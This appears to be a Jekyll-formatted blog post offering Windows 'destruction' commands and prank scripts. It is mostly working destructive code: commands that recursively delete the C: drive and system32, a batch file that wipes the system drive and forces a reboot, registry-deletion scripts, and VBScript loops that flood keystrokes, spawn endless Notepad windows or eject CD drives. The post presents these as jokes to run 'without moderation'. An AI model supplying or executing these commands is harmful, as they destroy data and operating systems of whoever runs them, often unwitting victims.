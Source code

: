 ```yaml
---
layout: post
title: Best way to Destroy M$ Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy M$ Windows
Run this command without moderation;)

### 1Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2Type this in notepad:

Save the file anywhere (.bat) and execute it:

###### 2.1 The blue screen of Death
Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

<br>

###### 2.2 Stupidity Shutdown
code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

<br>

###### 2.3 Delete Key Registry Files
code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

<br>

###### 2.4 Endless Notepads
code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

<br>

###### 2.5 Crazy caps lock
code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

<br>

###### 2.6 Endless Enter
code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

<br>

###### 2.7 Endless Backspace
code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

<br>

###### 2.8 Popping CD Drives
code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

 
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) and [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)

<br>